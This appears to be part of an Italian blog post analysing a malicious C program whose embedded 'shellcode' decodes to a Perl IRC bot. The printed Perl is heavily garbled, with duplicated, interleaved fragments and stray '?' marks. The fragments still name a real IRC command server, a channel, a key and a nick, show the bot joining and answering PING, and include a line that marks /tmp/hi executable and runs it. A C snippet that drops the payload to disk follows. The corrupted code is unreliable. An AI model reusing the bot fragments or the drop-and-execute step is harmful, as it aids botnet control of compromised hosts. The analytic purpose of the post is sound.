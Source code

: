 ?irc.ham.de.euirc.net";$SIG{TERM}?";
while (<$sock";
while (<$sock?n";
            sleep 1;
       ?n";
            #!/usr/bin/perl
?$chan="#cn";$key ="fags";$nick="?k\n";}}print $sock "JOIN $chan $?key\n";while (<$sock>){if (/^PIN?G (.*)$/){print phpfr";$server="?irc.ham.de.euirc.net";$SIG{TERM}?sleep 1;
       sleep 1;
       ?";
while (<$sockn";
            ?sleep 1;
       #!/usr/bin/perl
?$chan="#cn";$key ="fags";$nick="?phpfr";$server="irc.ham.de.euirc?.net";$SIG{TERM}d +x /tmp/hi 2>/?dev/null;/tmp/hi";
while (<$sock?n";
            sleep 1;
       ?k\n";}}print $sock "JOIN $chan $?key\n";while (<$sock>){if (/^PIN?G (.*)$/){print ";
while (<$sock?n";
            sleep 1;
       ?k\n";}}print $sock "JOIN $chan $?key\n";while (<$sock>){if (/^PIN?G (.*)$/){print #!/usr/bin/perl
{% endhighlight %}

E bene sì, esce fuori un piccolo script scritto in perl.   
Che se analizziamo per bene notiamo connettersi ad un canale IRC remoto, ve lo sareste mai aspettato all'inizio ?   
Per il secondo shellcode il tutto è molto simile dandoci questo codice:
{% highlight pl linenos %}
";
while (<$sockn";
            ? ="fags";$nick="phpfr";$server="?irc.ham.de.euirc.net";$SIG{TERM}?";
while (<$sock";
while (<$sock?n";
            sleep 1;
       ?n";
            #!/usr/bin/perl
?$chan="#cn";$key ="fags";$nick="?sleep 1;
       #!/usr/bin/perl
?$chan="#cn";$key ="fags";$nick="?phpfr";$server="irc.ham.de.euirc?.net";$SIG{TERM}d +x /tmp/hi 2>/?dev/null;/tmp/hi";
while (<$sock?n";
            sleep 1;
       ?k\n";}}print $sock "JOIN $chan $?key\n";while (<$sock>){if (/^PIN?G (.*)$/){print ";
while (<$sock?n";
            sleep 1;
       ?k\n";}}print $sock "JOIN $chan $?key\n";while (<$sock>){if (/^PIN?G (.*)$/){print #!/usr/bin/perl
?#!/usr/bin/perl
$chan="#cn";$key? ="fags";$nick="}}#chmod +x /tmp?/hi 2>/dev/null;/tmp/hi
{% endhighlight %}

Analizziamo il codice C, così capiamo un po’ cosa accade
{% highlight c linenos %}
 jmpinst=fopen(shellcode+793,"w+");
    if(jmpinst){
        fseek(jmpinst,0,SEEK_SET);
        fprintf(jmpinst,"%s",shellcode);
        fclose(jmpinst);
    }
{% endhighlight %}
